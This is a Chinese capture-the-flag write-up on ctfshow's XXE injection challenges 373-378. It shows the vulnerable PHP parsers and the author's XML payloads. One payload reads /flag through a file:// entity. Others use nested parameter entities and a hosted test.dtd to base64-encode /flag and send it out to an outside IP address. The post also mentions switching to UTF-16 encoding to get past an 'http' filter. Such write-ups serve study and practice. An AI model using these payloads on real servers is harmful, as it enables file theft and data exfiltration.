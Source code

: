 ﻿---
title: ctfshow web入门(xxe)
categories: ctfshow
---

# 前言
xxe 也学习过一点，正好手边有台服务器，开搞开搞

首先推荐好文章：[XML与xxe注入基础知识](https://www.cnblogs.com/backlion/p/9302528.html)

---
# 373
```php
error_reporting(0); 
libxml_disable_entity_loader(false);   //禁用加载外部实体的能力
$xmlfile = file_get_contents('php://input'); 
if(isset($xmlfile)){ 
    $dom = new DOMDocument();  //创建内部类Document对象
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); //通过解析一个 XML 标签字符串来组成该文档
    $creds = simplexml_import_dom($dom); //把 DOM 节点转换为 SimpleXMLElement 对象
    $ctfshow = $creds->ctfshow; 
    echo $ctfshow; 
}
```
<!--more-->

payload:
```
<!DOCTYPE cys[
<!ENTITY xxe SYSTEM "file:///flag">
]>
<test>
<ctfshow>&xxe;</ctfshow>
</test>
```

---
# 374(嵌套调用)
```php
error_reporting(0); 
libxml_disable_entity_loader(false); 
$xmlfile = file_get_contents('php://input'); 
if(isset($xmlfile)){ 
    $dom = new DOMDocument(); 
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
} 
highlight_file(__FILE__);  
```

可以看到没有回显，所以需要外带出来数据

使用`参数实体`方便

`参数实体有几个特性`，这几个特性也决定了它能被利用的程度：

-  只能在DTD内部 

- 立即引用

- 实体嵌套

![](https://img-blog.csdnimg.cn/20210420190749973.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
服务器构造 test.dtd
```
<!ENTITY % dtd   "<!ENTITY &#37; xxe SYSTEM 'http://1.15.66.132/%file;'>">
```

`嵌套的 %` 需要写成 `&#37;` 也可写为16进制 `&#x25;` 不然大概率出错

构造
```
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % hack SYSTEM "http://1.15.66.132/test.dtd">
%hack;
%dtd;
%xxe;
```

调用过程：

>参数实体 hack 调用外部实体 test.dtd，然后又调用参数实体 dtd，接着调用参数实体 xxe ,再调用file

此时我就纳闷了，为什么要在test.dtd中嵌套两层，`直接一层不行吗？`经过实操不行，这里暂时有点不理解

还有另一种写法 :


Test.dtd
```
<!ENTITY % dtd   "<!ENTITY xxe SYSTEM 'http://1.15.66.132/%file;'>">
```

构造：
```
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % hack SYSTEM "http://1.15.66.132/test.dtd">
%hack;
%dtd;
]>
<cys>&xxe;</cys>
```
调用过程：
>参数实体hack调用外部实体test.dtd，然后又调用参数实体dtd，接着调用命名实体xxe

![](https://img-blog.csdnimg.cn/20210420191100987.png#pic_center)

---
# 375-376

```php
error_reporting(0); 
libxml_disable_entity_loader(false); 
$xmlfile = file_get_contents('php://input'); 
if(preg_match('/<\?xml version="1\.0"/', $xmlfile)){ 
    die('error'); 
} 
if(isset($xmlfile)){ 
    $dom = new DOMDocument(); 
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
} 
highlight_file(__FILE__);
```

过滤声明而已，同上


---
# 377(编码绕过)
```php
error_reporting(0); 
libxml_disable_entity_loader(false); 
$xmlfile = file_get_contents('php://input'); 
if(preg_match('/<\?xml version="1\.0"|http/i', $xmlfile)){ 
    die('error'); 
} 
if(isset($xmlfile)){ 
    $dom = new DOMDocument(); 
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
} 
highlight_file(__FILE__);  
```

过滤了 http

这里看一下utf-8 与 utf-16 的不同

utf-8 :

![](https://img-blog.csdnimg.cn/20210420191305514.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
utf-16 :

![](https://img-blog.csdnimg.cn/20210420191321356.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
改一下加密方式就行了，requests发包


---
# 378
不知道怎么造

![](https://img-blog.csdnimg.cn/20210420191345680.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

